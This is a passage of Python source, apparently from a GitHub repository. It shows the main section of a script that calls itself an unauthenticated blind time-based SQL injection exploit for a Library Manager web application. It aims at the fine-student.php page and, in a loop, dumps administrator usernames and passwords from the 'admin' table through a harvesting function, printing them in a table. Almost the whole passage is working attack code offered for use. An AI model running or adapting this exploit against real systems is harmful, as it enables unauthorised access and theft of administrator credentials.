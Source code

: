 ```python
        password = password[:size.sizeP]
    password  += BR+" "+ST
    print(username,password)

def sig():
    SIG  = SB+FY+"         .-----.._       ,--.\n"
    SIG += FY+"         |  ..    >  ___ |  | .--.\n"
    SIG += FY+"         |  |.'  ,'-'"+FR+"* *"+FY+"'-. |/  /__   __\n"
    SIG += FY+"         |      </ "+FR+"*  *  *"+FY+" \   /   \\/   \\\n"
    SIG += FY+"         |  |>   )  "+FR+" * *"+FY+"   /    \\        \\\n"
    SIG += FY+"         |____..- '-.._..-'_|\\___|._..\\___\\\n"
    SIG += FY+"             _______"+FR+"github.com/boku7"+FY+"_____\n"+ST
    return SIG

def argsetup():
    about  = SB+FT+'Unauthenticated Blind Time-Based SQL Injection Exploit - Library Manager'+ST
    parser = argparse.ArgumentParser(description=about)
    parser.add_argument('targetHost',type=str,help='The DNS routable target hostname. Example: "http://0xBoku.com"')
    parser.add_argument('DumpXAdmins',type=int,help='Number of admin credentials to dump. Example: 5')
    parser.add_argument('-p','--proxy',type=str,help='<127.0.0.1:8080> Proxy requests sent')
    args = parser.parse_args()
    if args.proxy:
        regex = '^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}:[0-9]{2,5}$'
        if re.match(regex,args.proxy,re.IGNORECASE):
            args.proxy = {'http':'http://{}'.format(args.proxy),'https':'https://{}'.format(args.proxy)}
        else:
            print('{}Error:   Supplied proxy argument {} fails to match regex {}'.format(err,args.proxy,regex))
            print('{}Example: {} -p "127.0.0.1:8080"'.format(err,sys.argv[0]))
            sys.exit(-1)
    else:
        proxy = False
    return args

if __name__ == "__main__":
    header = SB+FT+'               '+FR+' Bobby '+FR+'"'+FR+'boku'+FR+'"'+FR+' Cooke\n'+ST
    print(header)
    print(sig())
    args   = argsetup()
    host   = args.targetHost
    pxy    = args.proxy
    admins = args.DumpXAdmins
    PATH   = host+"/LibraryManagement/fine-student.php"
    size  = tableSize(20,20)
    size.printHeader()
    dumpnumber = 1
    while dumpnumber <= admins:
        adminUsername  = { "id":dumpnumber, "table":"admin", "column":"username"}
        adminUsername  = theHarvester(adminUsername,chars,PATH,pxy)
        adminPassword  = { "id":dumpnumber, "table":"admin", "column":"password"}
        adminPass = theHarvester(adminPassword,chars,PATH,pxy)
        adminUser = userObj(adminUsername,adminPass)
        printTableRow(adminUser,size)
        # print("Admin's Username is: {}".format(adminUsername))
        # print("Admin's Password is: {}".format(adminPass))
        dumpnumber += 1
```
